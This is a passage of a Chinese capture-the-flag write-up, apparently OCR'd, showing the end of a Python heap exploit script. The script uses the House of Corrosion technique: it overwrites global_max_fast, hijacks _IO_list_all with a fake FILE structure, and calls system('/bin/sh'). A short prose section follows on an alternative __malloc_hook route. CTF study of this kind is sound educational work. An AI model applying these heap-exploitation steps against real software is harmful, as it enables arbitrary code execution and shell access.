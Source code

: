 ```py

add(0x14a0,payload) # 2

# write global_max_fast to 0xdead
payload='a'*0x20+p64(global_max_fast-0x2)
edit(payload)

# House of corrosion
# hijack _IO_list_all
delete(3)

delete(2)
# construct fake io
payload=p64(0)*3+p64(sys_addr)+'a'*0x70
fake_io="/bin/sh\x00"+p64(0x1411)
fake_io+=p64(0)*3+p64(1)+p64(0)
fake_io=fake_io.ljust(0xd8,'\x00')
fake_io+=p64(heapbase+0x150) # vtable
payload+=fake_io
# overwrite 3
add(0x14b0-0x10,payload) # 2


leak("heap_list",hex(heap_list))
leak("elfbase",hex(elfbase))
leak("libcbase",hex(libcbase))
leak("heapbase",hex(heapbase))
leak("global_max_fast",hex(global_max_fast))
leak("_IO_list_all",hex(_IO_list_all))
leak("fastbinsY",hex(fastbinsY))
leak("chunk_size",hex(chunk_size))
leak("sys_addr",hex(sys_addr))
# debug()

# trigger
ru("4.exit\n")
sl("4")

itr()
```

## 其他思路

如果按照main的思路走的话，一直到overlapping都是一样的，但overlapping的`chunk`的`size`有所不同，这里需要另其为`0xd0`，这样才能通过任意地址写`0xde`来伪造`size`。

首先需要利用任意地址写`0xde`修改`global_max_fast`，让`0xd0`大小的`chunk`都能被认为是`fast bin chunk`，之后将overlapping的大小为`0xd0`的`chunk`释放到越界的`fast bin`中。

打`__malloc_hook`的话，由于只能任意地址写`0xde`来伪造`size`，需要在`__malloc_hook`前面找一段`0x0000000000000000`的空间来伪造`size`。

